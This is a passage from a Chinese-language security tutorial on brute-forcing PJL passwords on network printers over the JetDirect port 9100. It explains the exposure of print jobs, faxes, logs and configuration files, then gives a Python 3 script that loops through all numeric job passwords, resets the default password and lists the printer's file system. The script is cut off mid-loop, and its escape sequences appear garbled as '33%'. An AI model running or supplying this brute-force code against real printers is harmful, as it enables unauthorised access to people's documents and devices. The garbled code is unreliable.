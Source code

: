 PJL是打印控制语言PCL的扩展。文章前面部分已经介绍过，这里是针对认证PJL的爆破，否则无法使用PJL命令。危害：通过 PJL 除了能够查看和更改打印机状态之外，还可以对打印机内置的文件系统进行访问，进而可绕过密码验证通过 PJL 对打印机内置的文件系统进行读写。文件系统包含后台处理打印作业、收到的传真、日志文件和配置文件。

9100端口一般为JetDirect的端口，JetDirect虽然是惠普设计的，但是众多打印机都使用该软件，包括Canon、Lexmark、Samsung和Xerox。该软件负责处理通过网络提交的打印请求。网络打印机通过JetDirect协议，侦听，接收打印请求数据。

如下是PJL密码存储格式：

```
@PJL JOB PASSWORD=0

@PJL DEFAULT PASSWORD=12345

@PJL DEFAULT DISKLOCK=ON

@PJL DEFAULT CPLOCK=ON
```

可通过 内存和文件系统读取获取密码，或暴力破解。

爆破代码python3如下：

```
import socket
import sys

def main():
    if len(sys.argv)<=1:
        print('Parameters error')
        return
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(10)
    s.connect((sys.argv[1],9100))
    s.settimeout(None)
    # 发送读取设备ID的PJL指令
    s.send(('33%-12345X@PJL INFO ID\r\n33%-12345X\r\n').encode('UTF-8'))
    print(s.recv(1024).decode('UTF-8'))

    for i in range(1, 65536):
        buf = b''
        # 发送重置密码的PJL指令
        s.send(('33%-12345X@PJL \r\n@PJL JOB PASSWORD=' + str(i) + '\r\n@PJL DEFAULT PASSWORD=0 \r\n@PJL EOJ\r\n33%-12345X\r\n').encode('UTF-8'))
        if i%30 == 0:
            # 发送查询密码保护状态的PJL指令
            s.send(('33%-12345X@PJL \r\n@PJL DINQUIRE PASSWORD\r\n33%-12345X\r\n').encode('UTF-8'))
            while True:
                buf += s.recv(1)
                print(buf)
                try:
                    buf.index(b'\r\n\x0c')
                    try:
                        # 密码保护被禁用
                        buf.index(b'DISABLED')
                        print('password disabled ok!')
                        # 发送查询目录的PJL指令
                        s.send(('33%-12345X@PJL \r\n@PJL FSDIRLIST NAME = "0:\\" ENTRY=1 COUNT=99\r\n33%-12345X\r\n').encode('UTF-8'))
                        buf = b''
                        while True:
                            buf += s.recv(1)
                            print(buf)
                            try:
                                buf.index(b'\r\n\x0c')
                                try:
                                    # 查询成功
                                    buf.index(b'ENTRY')
```